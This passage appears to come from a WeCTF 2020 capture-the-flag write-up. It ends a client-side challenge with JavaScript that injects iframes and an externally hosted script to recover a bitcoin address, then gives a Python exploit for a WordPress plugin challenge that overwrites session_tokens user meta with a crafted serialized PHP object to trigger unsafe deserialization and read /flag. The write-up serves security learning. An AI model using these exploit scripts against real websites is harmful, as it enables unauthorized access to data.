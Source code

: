 ```html
        ifr3.name='attack';
        ifr3.src = "1.html";
        iframe3.appendChild(ifr3);
        await sleep(1000);
        sc = document.createElement('script');
        sc.name='attack';
        sc.src = "http://[HOST]/";
        script1.appendChild(sc);
        await sleep(1000);
        dealwithit(style); // <= bitcoin address
    }
    main();
</script>
```

Save 0.html, 1.html, 2.html and send 2.html as payload. 

After getting the bitcoin address, you can find flag in OP_RETURN of one transaction. 

## Wordpress
2 solves

**Description**

Shou made his first wordpress plugin! Check it out!

Note 1: it is unnecessary to be admin to solve this challenge and to ensure the stability, we removed almost all possible ways to be admin.

Handout: https://github.com/wectf/2020p/blob/master/wordpress/handout.zip

**Writeup**

Wordpress Entry Overwrite + Unsafe Deserialization 
```python
from requests import *
HOST = "http://wordpress.ctf.so/"
import re
des_content = 'a:1:{i:0;O:5:"Upage":4:{s:7:"user_id";N;s:9:"user_info";a:0:{}s:4:"conf";s:5:"/flag";s:16:"disallowed_words";a:0:{}}}'
s = Session()

s.post(f"{HOST}wp-login.php", headers={ 'Cookie':'wordpress_test_cookie=WP Cookie check' }, data={
    "log": "[WORDPRESS EMAIL]",
    "pwd": "[WORDPRESS PASSWORD]",
    "wp-submit": "Log In",
    "redirect_to": HOST,
"testcookie": "1"
})


print(s.post(f"{HOST}wp-admin/admin.php?page=edit_upage", data={
    "key": "session_tokens",
    "value": des_content
}).text)

print(s.get(f"{HOST}wp-admin").text)
```

